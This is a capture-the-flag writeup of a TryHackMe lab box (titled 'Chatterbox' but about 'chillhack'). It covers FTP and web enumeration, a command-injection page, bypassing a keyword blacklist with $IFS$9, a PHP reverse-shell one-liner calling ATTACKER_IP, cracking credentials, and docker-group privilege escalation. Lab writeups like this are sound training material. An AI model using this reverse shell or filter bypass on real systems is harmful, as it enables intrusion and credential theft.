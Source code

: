 ```yaml
---
layout: post
title: THM Chatterbox writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<p>Start by enumerating  ports with an NMAP Scan.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80</p>
<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed</p>
<img src="/img/chillhack/1.nmap.png">

<p>login with “anonymous:anonymous” </p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders. Let’s try and enumerate the sub directories. </p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s run dirbuster first.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says command. Let’s try and issue some commands. Since we know from NMAP this is probably a Liux box let’s try some bash commands</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and get a use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one on the list</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work</p>
<img src="/img/chillhack/12.burp.png">

<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server) for white spaces. I’m assuming there’s an input validation that has a hard coded list of black listed keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>And we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive.</p>
<img src="/img/chillhack/15.first-shell.png">

<p>Using this python 3 command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images that I downloaded on to my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a mysql user name and password. Let’s note these and see if we can connect to the mysql server. </p>
<img src="/img/chillhack/18.mysql-creds.png/">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.. </p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password</p>
<img src="/img/chillhack/28.base64-d.png">


<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">

<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




